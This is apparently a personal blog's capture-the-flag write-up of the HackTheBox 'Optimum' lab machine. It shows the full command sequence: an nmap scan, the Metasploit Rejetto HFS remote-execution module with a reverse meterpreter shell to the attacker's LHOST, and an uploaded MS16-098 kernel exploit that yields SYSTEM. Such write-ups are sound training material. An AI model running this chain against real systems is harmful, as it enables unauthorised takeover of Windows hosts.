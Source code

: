 ```yaml
---
title: "HackTheBox: Optimum"
layout: archive
date:   2021-01-15
tags: HackTheBox
tags_label: true
---
```

This is a retired beginner-level machine from hackthebox. It is a windows machine, which I really need more practice at...

#### Scanning:

Find running services:

```
crazyeights@es-base:~$ nmap -PS 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-15 10:42 EST
Nmap scan report for 10.10.10.8
Host is up (0.034s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```

Port 80:
--------

![](/assets/images/optimum/Screenshot_from_2021-01-15_10-43-14.png)

In the page source we find the server publisher name:

```
HttpFileServer 2.3
```

There are exploits for this version:

![](/assets/images/optimum/Screenshot_from_2021-01-15_10-46-14.png)

Trying the metasploit version:

```
msf5> search rejetto

  0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msf5 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > options

msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.14.25
LHOST => 10.10.14.25
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8

msf5 exploit(windows/http/rejetto_hfs_exec) > exploit
```

User
----

After running the exploit we now have user:

```
meterpreter > getuid
Server username: OPTIMUM\kostas
meterpreter >
```

We can now get the user flag:

```
meterpreter > pwd
C:\Users\kostas\Desktop
meterpreter > dir

100444/r--r--r--  32      fil   2017-03-18 08:13:18 -0400  user.txt.txt

meterpreter > cat user.txt.txt
d0c39_i_dont_want_to_get_in_trouble
```

Listing system info:

```
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
```

This version of the OS has an vulnerability that will allow us to elevate our privileges.

Found the link to the repo with the exploit exe at the first link, and the exec at the second.

```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098
```

Root
----

Upload and run the exploit to get system:

```
meterpreter > upload Downloads/bfill.exe
[*] uploading  : Downloads/bfill.exe -> bfill.exe
[*] Uploaded 547.00 KiB of 547.00 KiB (100.0%): Downloads/bfill.exe -> bfill.exe
[*] uploaded   : Downloads/bfill.exe -> bfill.exe

meterpreter > shell
Process 1828 created.
Channel 12 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas>bfill.exe
bfill.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas>whoami
whoami
nt authority\system

C:\Users\kostas>
```

The root flag can be found on the Administrator's desktop.

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed_i_dont_want_to_get_in_trouble
```

FIN. 🥳